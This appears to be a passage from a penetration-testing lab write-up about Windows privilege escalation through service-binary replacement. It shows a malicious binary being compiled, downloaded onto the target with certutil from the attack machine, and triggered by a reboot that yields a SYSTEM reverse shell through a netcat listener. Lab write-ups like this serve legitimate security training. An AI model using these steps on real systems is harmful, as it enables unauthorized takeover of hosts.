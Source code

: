 ~~~shell
└─$ i686-w64-mingw32-gcc admin.c -o bd.exe
~~~
I then moved the existing bd.exe binary
~~~shell
C:\bd>move bd.exe bd.service.exe
move bd.exe bd.service.exe
        1 file(s) moved.
~~~
I transferred the malicious binary created on my attack machine to the target host
~~~shell
C:\bd>certutil.exe -urlcache -split -f "http://192.168.45.167/bd.exe"
certutil.exe -urlcache -split -f "http://192.168.45.167/bd.exe"
****  Online  ****
  000000  ...
  01861c
CertUtil: -URLCache command completed successfully.
~~~
I started my netcat listener on port 445
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~
Finally I restarted the computer
~~~shell
C:\bd>shutdown /r
shutdown /r
~~~
After a few minutes I recieved my root (system) shell on the netcat listener!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.127] 49669
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
~~~